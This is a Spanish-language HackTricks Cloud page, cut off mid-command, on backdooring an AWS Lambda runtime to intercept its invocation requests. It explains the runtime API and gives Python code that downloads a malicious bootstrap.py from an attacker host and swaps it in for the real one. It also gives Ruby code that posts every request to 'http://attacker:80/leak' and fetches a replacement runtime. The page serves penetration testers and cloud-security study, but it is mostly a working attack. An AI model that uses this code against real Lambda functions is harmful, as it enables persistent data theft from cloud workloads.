 # AWS - Robar solicitudes de Lambda

<details>

<summary><strong>¡Apoya a HackTricks y obtén beneficios!</strong></summary>

* Si quieres ver a tu **empresa anunciada en HackTricks** o si quieres acceder a la **última versión de PEASS o descargar HackTricks en PDF** ¡Consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Obtén el [**oficial PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Descubre [**The PEASS Family**](https://opensea.io/collection/the-peass-family), nuestra colección de exclusivos [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **sígueme** en **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm).
* **Comparte tus trucos de hacking enviando PR a los repositorios de GitHub de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

## Introducción <a href="#python-runtime" id="python-runtime"></a>

Este ataque supone que tienes algún tipo de **acceso sobre una Lambda en ejecución**.\
Además, algo importante a tener en cuenta es que **las invocaciones de Lambda no están completamente separadas entre sí, sino que están aisladas**. Podrían ejecutarse, aunque no simultáneamente, en el mismo entorno de ejecución. Con eso en mente, comencemos a diseccionar ese entorno.

### Aislamiento

El aislamiento de Lambda utiliza estos cgroups:

<figure><img src="../../../../.gitbook/assets/image (1) (1) (4).png" alt=""><figcaption></figcaption></figure>

Como el prefijo 'sandbox' no coincidía con ningún motor de contenedor común (docker, podman, LXD, rkt), podría ser un motor de contenedor propietario, que podría estar utilizando internamente un tiempo de ejecución de contenedor de código abierto como [runC](https://github.com/opencontainers/runc).

### Cómo funcionan las Lambdas  <a href="#python-runtime" id="python-runtime"></a>

Esta parece ser la arquitectura de Lambda en Python:

<figure><img src="../../../../.gitbook/assets/image (2) (6).png" alt=""><figcaption></figcaption></figure>

1. Un proceso fuera del contenedor, denominado "**slicer**" en el binario init, envía eventos de invocación al proceso **init** a través de memoria compartida.
2. El proceso init configura un servidor HTTP en el puerto 9001 (codificado en duro), con varios puntos finales expuestos:
   1. /2018-06-01/runtime/invocation/**next** – obtener el siguiente evento de invocación
   2. /2018-06-01/runtime/invocation/{invoke-id}/**response** – devolver la respuesta del controlador para la invocación
   3. /2018-06-01/runtime/invocation/{invoke-id}/**error** – devolver un error de ejecución
3. En `bootstrap.py`, el siguiente bucle **consulta el proceso init para un nuevo evento**, y luego **llama a la función del usuario** para manejarlo (aquí, se ejecuta el controlador de solicitudes que cargaste).\


    <figure><img src="../../../../.gitbook/assets/image (11) (4).png" alt=""><figcaption></figcaption></figure>
4. La **respuesta del controlador se envía de vuelta al proceso init** a través de uno de los siguientes puntos finales:
   1. `/{invoke-id}/response` – si el controlador del usuario se ejecutó correctamente
   2. `/{invoke-id}/error` – si se produjo una excepción durante el manejo de la invocación

## Resumen de la técnica <a href="#python-runtime" id="python-runtime"></a>

Es posible **sustituir el script de arranque** con código malicioso para poder **interceptar los datos** enviados a la función Lambda.\
Tenga en cuenta que **otros motores en otros lenguajes** tienen otro **script de arranque** escrito en ese lenguaje, por lo que esto se puede hacer **también en otras lambdas que usan otros lenguajes**, no solo en Python.

## Python <a href="#python-runtime" id="python-runtime"></a>

Desde la lambda, descarga **`/var/runtime/bootstrap.py`**  (o simplemente inicia **tu propia lambda** y consíguelo) y agrega la puerta trasera que filtrará todos los datos enviados a Lambda. Solo necesitas agregar un par de líneas como:

<figure><img src="../../../../.gitbook/assets/image (2) (1) (3).png" alt=""><figcaption></figcaption></figure>

### Reemplazar tiempo de ejecución

Ahora, con el nuevo **`boostrap.py` creado**, es posible **descargarlo**, **finalizar la invocación actual de lambda** y ejecutarlo para **reemplazar** el legítimo:

```python
import os
from urllib import request

# Descargar bootstrap.py desde tu servidor
r = request.urlopen('http://attacker.com/bootstrap.py')
with open('/tmp/bootstrap.py', 'w') as f:
    f.write(r.read().decode('utf-8'))

# Obtener ID de invocación y finalizarla
req = request.urlopen("http://127.0.0.1:9001/2018-06-01/runtime/invocation/next")
inv_id = req.headers["Lambda-Runtime-Aws-Request-Id"]
req = request.Request(f"http://127.0.0.1:9001/2018-06-01/runtime/invocation/{inv_id}/response", data=b"null")
req.add_header("Content-Type", "application/x-www-form-urlencoded")
request.urlopen(req)

# Iniciar tu bootstrap.py
os.system("python3 /tmp/bootstrap.py")
```

O también puedes usar [twist\_runtime.py](https://github.com/twistlock/lambda-persistency-poc/blob/master/poc/twist\_runtime.py), que finalizará la invocación como se hizo anteriormente, ejecutará el nuevo bootstrap y exfiltrará la información.

{% hint style="warning" %}
Si una función lambda no se usa durante 5-15 minutos, se cerrará y todos los cambios se perderán la próxima vez que se invoque.
{% endhint %}

## Tiempo de ejecución de Ruby <a href="#ruby-runtime" id="ruby-runtime"></a>

En Ruby, el archivo que desea agregar una puerta trasera es el archivo **`/var/runtime/lib/runtime.rb`** (obténgalo del sistema o ejecutando su propia lambda).

Agregar una puerta trasera es tan simple como en la versión de Python:

```ruby
# Agregar un require al principio
require 'json'
require 'net/http'
[...]
# En el bucle donde se trata la invocación
begin 
    context = lambdaContext.new(raw_request)
    uri = URI('http://attacker:80/leak')
    Net::HTTP.post(uri,JSON.generate(request))
    [...]
```

Luego, solo necesita hacer lo que hizo en la versión de Python con solo un cambio:

* **Descargar la puerta trasera en un directorio**
* **Crear un enlace simbólico** `/var/runtime/lib/*` con el directorio donde se encuentra la puerta trasera
* Finalizar la invocación actual de lambda

```ruby
# Puedes obtener una shell de Ruby con 'irb' o ejecutar desde la shell con ruby -e "..."

require 'net/http'

# Descargar nuevo script
uri = URI("http://attacker/rumtime.rb")
r = Net::HTTP.get_response(uri)
File.write("/tmp/rumtime.rb", r.body)

# Crear enlace simbólico
ln -s /